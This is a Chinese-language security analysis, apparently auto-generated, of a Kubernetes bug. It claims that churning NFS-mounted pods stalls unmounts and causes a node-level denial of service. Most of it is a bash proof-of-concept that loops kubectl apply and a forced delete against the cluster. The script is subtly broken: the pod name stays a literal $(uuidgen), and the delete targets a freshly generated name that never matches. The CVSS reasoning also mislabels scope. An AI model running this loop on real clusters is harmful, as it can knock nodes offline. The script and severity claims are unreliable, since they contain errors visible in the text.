 <details></details>


### 分析结果

存在潜在的安全风险。

**原因和可能的影响：**

1. **可被攻击者利用**：攻击者如果具备在集群中创建和删除Pod的权限，可能会利用该问题对集群节点进行拒绝服务（Denial of Service，DoS）攻击。通过频繁创建和删除挂载NFS卷的Pod，触发NFS卸载卡住的情况，导致节点的高IO等待（iowait），占用系统资源，使节点无法正常处理其他请求。

2. **可能成为漏洞并分配CVE编号**：该问题涉及到系统可用性的严重下降，符合CVSS 3.1评分标准中对可用性影响的高危评级。根据CVSS 3.1标准，攻击复杂度低（Attack Complexity：Low），攻击者无需高级权限即可执行（Privileges Required：Low），影响范围在网络级别（Scope：Unchanged），对可用性造成高影响（Availability Impact：High），综合评分可能达到High以上。

**Proof of Concept：**

攻击者编写脚本，循环创建并删除挂载NFS卷的Pod，以触发NFS卸载卡住的问题，导致节点出现高iowait，最终导致节点不可用。

示例脚本：

```bash
# 创建一个Pod模板文件 nfs-pod.yaml
cat <<EOF > nfs-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: nfs-pod-\$(uuidgen)
spec:
  containers:
  - name: nfs-container
    image: busybox
    command: ["sleep", "3600"]
    volumeMounts:
    - name: nfs-volume
      mountPath: /mnt
  volumes:
  - name: nfs-volume
    nfs:
      server: nfs1.storage.server.com
      path: /home/brad
EOF

# 循环创建和删除Pod
for i in \$(seq 1 100)
do
  # 创建Pod
  kubectl apply -f nfs-pod.yaml
  # 等待Pod运行
  sleep 5
  # 删除Pod
  kubectl delete pod nfs-pod-\$(uuidgen) --force --grace-period=0
done
```


[1]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/kuberuntime/kuberuntime_manager.go#L1325
[2]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/pod_workers.go#L1484
